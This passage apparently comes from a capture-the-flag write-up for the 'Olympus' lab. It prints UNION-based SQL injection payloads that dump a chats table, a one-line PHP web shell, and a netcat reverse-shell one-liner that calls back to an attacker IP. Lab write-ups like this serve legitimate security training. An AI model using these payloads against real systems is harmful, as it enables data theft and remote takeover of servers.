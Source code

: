 Taking a second look at the tables inside the `olympus` database we see a `chats` table

To retrieve the columns of the `chats` table we can use the following command

```
search=x' UNION ALL SELECT 1,2,3,concat(column_name),5,6,7,8,9,10 FROM information_schema.COLUMNS WHERE table_name='chats'-- -&submit=
```

The two columns that we will be dumping are: `msg` & `file`

```
search=x' UNION ALL SELECT 1,2,3,concat(msg, ':', file),5,6,7,8,9,10 FROM chats-- -&submit=
```

From the data that we dumped we can see the new name of the `prometheus_password.txt` fle: `47c3210d51761686f3af40a875eeaaea.txt`

![image](/assets/img/Pasted image 20220803230657.png)

Knowing that we can find the real name of the file that we upload, assuming there are no content filters, we should be able to get a shell

```bash
$ cat phprce.php         
<?php
    echo system($_REQUEST["cmd"]);
?>
```

![image](/assets/img/Pasted image 20220804000420.png)

We see that the upload goes through, now we need to do the SQL injection once again to dump the `msg` & `file` columns.

![image](/assets/img/Pasted image 20220804000606.png)

Our new file is `fa8e5ef46fad7138483709a5f1cc8113.php`

Now we can find the file by navigating to `http://chat.olympus.thm/uploads/fa8e5ef46fad7138483709a5f1cc8113.php?cmd=id`

I will be capturing this request with burp's repeater and changing the request type to `POST`, this makes the commands easier to input and read personally.

![image](/assets/img/Pasted image 20220804004113.png)

We now have command execution and can get a reverse shell

```
cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.13.5.204+9001+>/tmp/f
```

![image](/assets/img/Pasted image 20220804004354.png)

<br><br>

## Internal
